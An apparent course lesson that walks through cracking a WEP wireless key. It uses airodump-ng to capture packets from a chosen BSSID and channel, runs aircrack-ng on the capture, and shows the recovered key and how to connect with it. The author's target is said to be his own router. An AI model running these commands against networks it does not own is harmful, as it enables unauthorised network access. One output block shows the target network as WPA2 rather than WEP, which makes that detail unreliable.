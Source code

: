 ```yaml
---
title: WEP Cracking Basics
type: default
layout: page
child: Cracking
fold: Network Cracking
---
```


From the previous lesson, we learned that in order to crack a network whose
encryption is WEP, first we need to capture a big number of packets, that also
means that we will capture a lot of IVs and due to its small size they will
start to get repeated, this will allow us to use a tool called _aircrack-ng_ to
execute a statistical attack and obtain the WEP key.

First, we'll use _airodump-ng_ to capture the data, then we'll use _aircrack-ng_
to analyse them and obtain the key.

```bash
CH  9 ][ Elapsed: 0 s ][ 2020-12-31 08:48                                         
                                                                                                  
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                  
 9C:C8:FC:4D:01:8F  -71        2        0    0  11  54e. WPA2 CCMP   PSK  FamiliaH                
 9C:C8:FC:4D:10:CA  -23        4        2    0   6  54e. WEP  WEP    PSK  TIGO-7A54               
 50:75:F1:EA:83:A2  -69        5        0    0   1  54e. WPA2 CCMP   PSK  PEDROJUAN               
 D4:CA:6D:B9:78:E9  -77        3        6    0   1  11 . WPA2 CCMP   PSK  Verito                  
 C4:27:95:62:EE:1E  -64        2        0    0  11  54e  WPA2 CCMP   PSK  HOME-EE1E               
                                                                                                   
 BSSID              STATION            PWR   Rate    Lost    Frames  

```

I executed airodump-ng against all the networks around me and as you can see
there's only one network using the WEP encryption, that network is called
"_TIGO-7A54_", this is the network that I use everyday I simply changed its
encryption.

As I said before, we'll need a network with a high a continuous packet flow, as
my network is not that active I will be generating these packets by myself, in
the next lessons I will show you how you can also generate those packets.

I will execute airodump-ng against this network only, we already know how to do
that. We'll execute the command "_airodump-ng_" and we'll use the argument
"_--bssid_" to specify the BSSID of our target network, then we'll write
"_--channel_" followed by the channel in which our target network is being
executed, we'll also need to write all the captured data into a file, to do that
we'll use the "_--write_" argument, I will set the file name to "_basicattack_"
and finally, we will pass the name of our interface in monitor mode. My command
looks like this:

```bash
airodump-ng --bssid 9C:C8:FC:4D:10:CA --channel 6 --write basicattack wlp2s0mon
```

Output:

```bash
 CH  6 ][ Elapsed: 6 s ][ 2020-12-31 08:53                                         
                                                                                                  
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                  
 9C:C8:FC:4D:10:CA  -19 100       88    16827    1   6  54e. WPA2 CCMP   PSK  TIGO-7A54           
                                                                                                  
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe
```

If your network's packet flow (traffic) is high and continuous, you'll note that
the values under the "_#Data_" column will start increasing very fast. I talked
about this briefly before. Basically, what is under the "_#Data_" section is the
number of useful packets, those are the packets that contain a different IV
(Initialisation vector) and we will be able to use it later on for crack the
password of the network, so, the greater the number of these packets are, the
greater our possibilities to crack the password are.

If your target network doesn't behave this way, don't worry, in the next lessons
I will teach you to generate this traffic all by yourself.

Once you have enough packets, you'll open a new terminal (or if your terminal
supports several tabs, create a new one), you'll _cd_ to the directory where the
files generated by the previous command are stored and execute _ls_ to list them
all (be sure to check if the file "_basicattack-01.cap_" exists).

Now, what's just left to do is execute "_aircrack-ng_" on this file, to do so,
just execute "_aircrack-ng_" followed by the name file, in my case the command
looks like this:

```bash
aircrack-ng basicattack-01.cap
```

When you execute that command, if the number of packets is enough to obtain the
key, you'll see that "_aircrack_ng_" will tell us that the key was found and now
we can connect to the _WEP_ network.

My aircrack-ng output:

```bash
Opening basicattack-01.cap
Read 226934 packets.

   #  BSSID                   ESSID                 Encryption
   1  9C:C8:FC:4D:10:CA       TIGO-7A54             WEP (102740 IVs)

Choosing first network as target.

Opening basicattack-01.cap
Attack will be restarted every 5000 captured ivs.
Starting PTW attack with 102740 ivs.
                     KEY FOUND! [ 30:31:32:33:34 ] (ASCII: 01234)
        Decrypted correctly: 100%
```

If _aircrack-ng_ returned the ASCII password, that's to say, in plain text, you
can use that password to connect to the network. If that's not your case, you
can just copy the other key (_30:31:32:33:34_), delete the colons and use that
key to connect to the network (3031323334).
